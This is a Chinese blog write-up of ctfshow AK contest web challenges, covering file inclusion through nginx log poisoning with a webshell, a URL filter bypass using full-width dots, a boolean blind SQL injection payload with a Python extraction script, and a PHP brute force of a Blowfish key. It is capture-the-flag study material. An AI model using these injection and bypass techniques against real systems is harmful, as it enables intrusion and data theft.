










---
title: "ctfshowAK赛"
date: 2024-12-21T19:46:21+08:00
summary: "ctfshowAK赛"
url: "/posts/ctfshowAK赛/"
categories:
  - "ctfshow"
tags:
  - "AK赛"
draft: false
---

# 签到_观己

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match('/php/i', $file)){
        die('error');
    }else{
        include($file);
    }

}else{
    highlight_file(__FILE__);
}

?>
```

include文件包含，allow_url_include没有开启没有办法用伪协议，我们用日志注入，先看一下服务器版本



访问nginx的日志文件后在UA头传入一句话木马，然后用蚁剑连马就可以了



# web1_观字



两个判断句，第一个是需要我们传入的url的前七位是http协议头，第二个判断句是需要我们绕过正则匹配，但是这里的小数点被过滤了，直接传域名的话肯定不好使

本来想着用进制表示去绕过的，但是0也被绕过了，进制也用不了



后面看了包的wp写的是用。去代替小数点

**在url中 `.`可以用`。`替代**

payload

```
?url=http://192。168。7。68/flag
```

# web2_观星

打开题目很像是之前的一道sql注入的题目



但是这道题过滤了很多东西，fuzz后发现大量函数都被过滤了，可以测出来是布尔盲注的，页面返回成功信息是"文章列表"



这里ascii函数被过滤了，我用ord去进行绕过，

测试2^1和2^0后可以发现回显不一样

```
id=2^0
回显A Child's Dream of a Star
id=2^1
回显I asked nothing
```

意味着注入成功的话会返回I asked nothing的结果，那我们用布尔盲注去做

payload

```
id=1^case(ord(substr(database()from(1)for(1))))when(102)then(2)else(3)end
```

借鉴一下师傅的盲注脚本(来自羽师傅)

```python
import requests
url="http://150da11b-ecd3-4dda-9f56-1ebc2ea3cd05.challenge.ctf.show/index.php?id=1^"
flag=""
for i in range(1,50):
    print("i="+str(i))
    for j in range(38,126):
        #u="case(ord(substr(database()from({0})for(1))))when({1})then(2)else(3)end".format(i,j)  #库名  web1
        #u="case(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))from({0})for(1))))when({1})then(2)else(3)end".format(i,j) #表名 flag、page、user
        #u="case(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)regexp(0x666c6167))from({0})for(1))))when({1})then(2)else(3)end".format(i,j) #列名 FLAG_COLUMN、flag
        u="case(ord(substr((select(group_concat(flag))from(flag))from({0})for(1))))when({1})then(2)else(3)end".format(i,j) #flag字段
        u=url+u
        r=requests.get(u)
        t=r.text
        if("I asked nothing" in t):
            flag+=chr(j)
            print(flag)
            break
```

解释一下payload

from……for就不说了，就是绕过逗号用的，从第一个字符开始截取一个字符

**`case ... when ... then ... else ... end`**

1. - 这是一个条件表达式。它根据某个条件的值返回不同的结果。
   - 具体来说，`case ord(substr(database() from 1 for 1))` 这部分将检查数据库名称第一个字符的 ASCII 值。
   - 如果这个值是 `102`（对应字符 'f'），则返回 `2`；否则返回 `3`。

最后的就是我们的异或运算了

- 如果 `ord` 的结果是 `102`（即返回 `2`），那么计算为 `1 ^ 2`，结果是 `3`。
- 如果 `ord` 的结果不是 `102`（即返回 `3`），那么计算为 `1 ^ 3`，结果是 `2`。

所以这里的话判断成功就会返回3，那么结合1^2的话就会返回    `I asked nothing`文章，以此可以进行布尔盲注

# web3_观图



抓包看到服务器版本是nginx/1.20.1



以为是cve版本漏洞，后面在源码中发现路由，访问拿到源码

```php
<?php

//$key = substr(md5('ctfshow'.rand()),3,8);
//flag in config.php
include('config.php');
if(isset($_GET['image'])){
    $image=$_GET['image'];
    $str = openssl_decrypt($image, 'bf-ecb', $key);
    if(file_exists($str)){
        header('content-type:image/gif');
        echo file_get_contents($str);
    }
}else{
    highlight_file(__FILE__);
}
?>
```

这里的话使用 `openssl_decrypt` 函数对传入的 `$image` 参数进行解密。这里采用的是 `bf-ecb` 加密算法（即 Blowfish 的电子密码本模式），并使用之前生成的 `$key` 作为密钥。

但是这种密钥是可以进行爆破得出来的，刚好前面有个image图片可以作为参考，放个exp

```php
<?php
    for($i=0;$i<getrandmax();$i++){
        $key = substr(md5('ctfshow'.$i),3,8);  //5a78dbb4
        $image="Z6Ilu83MIDw=";
        $str = openssl_decrypt($image, 'bf-ecb', $key);
        if(strpos($str,"gif") or strpos($str,"jpg") or strpos($str,"png")){
            print($str."\n");
            print($i."\n");
            print($key."\n");
            break;
        }
    }
    $flag = openssl_encrypt('config.php', 'bf-ecb', '5a78dbb4');
    print($flag);
```

`getrandmax()`函数返回随机数可能返回的最大值，既然有上限即可进行爆破来得出`key`值

得出来我们的随机数是27347

```php
<?php

$key = substr(md5('ctfshow'.'27347'),3,8);
$image="config.php";
$str = openssl_decrypt($image, 'bf-ecb', $key);
echo $str;
?>
```

拿到加密文件N6bf8Bd8jm0SpmTZGl0isw==，但是访问后拿不到文件内容，我后面看了wp才知道可以用wget把图片下载下来



然后cat读取文件就能拿到flag了

# web4_观心



在源码中有提示`<!-- flag in filesystem /flag.txt -->`

抓包后发现了两个参数比那个且提示了一些关于XML的，这里xml还没学，后面学了回来补
